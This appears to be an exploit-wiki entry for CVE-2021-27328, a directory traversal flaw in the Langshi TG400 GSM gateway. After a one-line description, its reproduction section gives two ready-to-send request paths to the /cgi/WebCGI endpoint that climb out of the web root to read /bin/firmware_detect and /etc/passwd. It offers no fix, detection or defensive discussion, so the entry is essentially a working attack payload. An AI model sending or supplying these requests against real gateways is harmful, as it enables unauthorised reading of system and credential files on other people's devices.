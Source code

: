 # Langshi TG400 GSM Gateway Directory Traversal CVE-2021-27328

## Vulnerability Description

Langshi TG400 GSM gateway exists directory traversal, and attackers can obtain sensitive information through vulnerabilities

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Langshi TG400 GSM Gateway</span>

## Vulnerability reappears

```plain
/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650602505512-6ebb6038-f759-4cbe-9f40-a4e398385f61.png)